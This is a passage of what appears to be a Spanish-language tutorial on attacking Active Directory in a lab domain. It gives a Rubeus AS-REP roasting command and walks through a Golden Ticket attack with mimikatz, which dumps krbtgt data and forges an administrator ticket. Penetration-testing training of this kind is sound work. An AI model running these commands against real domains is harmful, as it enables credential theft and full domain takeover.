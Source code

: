 ```bash
Rubeus.exe asreproast /user:SVC_SQLservice /domain:s4vicorp.local /dc:DC-Company
```

### GOLDENTICKET ATTACK

Este ataque es util para escalar privilegios haciendo un pass the ticket obteniendo información del usuario krbtgt contruyendo un goldenticket. Lo primero que debemos de hacer es tener acceso a un equipo para subirle el `mimikatz.exe`.

Una vez que hemos subido el mimikatz vamos a ejecutarlo aplicando el siguiente comando que nos dará información del usuario krbtgt

<img src="/assets/images/Active-Directory/mimikatz.png">

Toda la información que nos arroja la copiamos para guardarla ya que nos vamos a construir un golden ticket. Una vez copiada volvemos al mimikatz de la máquina y ponemos el siguiente comando rellenando los siguientes datos que se guardaron en lo que nos copiamos antes

```bash
kerberos::golden /domain:s4vicorp.local /sid:<SID> /rc4:<NTLM> /user:Administrador /ticket:golden.kirbi
```

<img src="/assets/images/Active-Directory/mimikatz2.png">
